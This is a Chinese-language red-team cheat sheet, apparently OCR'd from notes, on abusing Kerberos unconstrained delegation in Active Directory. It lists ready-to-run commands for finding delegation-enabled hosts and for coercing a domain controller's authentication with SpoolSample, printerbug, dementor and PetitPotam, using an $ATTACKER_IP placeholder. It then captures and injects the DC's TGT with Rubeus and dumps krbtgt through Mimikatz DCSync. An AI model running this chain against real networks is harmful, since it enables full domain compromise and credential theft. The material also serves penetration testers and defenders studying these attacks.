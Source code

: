 	用户发送一个 TGS 和他们的 TGT 来访问服务，然后服务可以使用用户的 TGT 为用户请求一个 TGS 到任何其他服务并模拟用户
  ### 无约束委派的SpoolService
  	目标是使用计算机帐户和 SpoolService 错误获得 DC 同步权限
	要求：
	具有属性的对象信任此计算机以委托给任何服务（仅限 Kerberos）
	必须有ADS_UF_TRUSTED_FOR_DELEGATION
	不得有ADS_UF_NOT_DELEGATED标志
	用户不得在受保护的用户组中
	用户不能有标志帐户是敏感的，不能被委派
	寻找委派
	域控制器通常启用无约束委派。检查TrustedForDelegation
	https://github.com/samratashok/ADModule
	PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
	https://github.com/dirkjanm/ldapdomaindump
	$> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
	grep TRUSTED_FOR_DELEGATION domain_computers.grep
	https://github.com/byt3bl33d3r/CrackMapExec/wiki
	>cme ldap 10.10.10.10 -u username -p password --trusted-for-delegation
	SpoolService 状态
	>ls \\dc01\pipe\spoolss
	>python rpcdump.py DOMAIN/user:password@10.10.10.10
	使用 Rubeus 进行监控
	监控来自 Rubeus 的传入连接。
	>Rubeus.exe monitor /interval:1 
	强制从 DC 重新连接
	由于无约束委托，计算机帐户（DC$）的 TGT 将保存在无约束委托计算机的内存中。默认情况下，域控制器计算机帐户对域对象具有 DCSync 权限。
	SpoolSample 是一种 PoC，用于强制 Windows 主机使用 MS-RPRN RPC 接口中的“功能”对任意服务器进行身份验证。
	https://github.com/leechristensen/SpoolSample
	>.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
	>.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
	DC01.HACKER.LAB 是我们要攻破的域控制器
	HELPDESK.HACKER.LAB 是我们控制的启用委派的机器。
	https://github.com/dirkjanm/krbrelayx
	>printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>
	https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
	>python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
	加载票据
	从 Rubeus 输出中提取 base64 TGT 并将其加载到我们当前的会话中。
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
	或者使用 Mimikatz 抢票： mimikatz # sekurlsa::tickets
	然后你可以使用 DCsync 或其他攻击：mimikatz # lsadump::dcsync /user:HACKER\krbtgt
  ### 无约束委派的MS-EFSRPC滥用
  	使用PetitPotam来强制从目标机器进行回调
	>git clone https://github.com/topotam/PetitPotam
	>python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
	>python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
	导出票据
	>.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt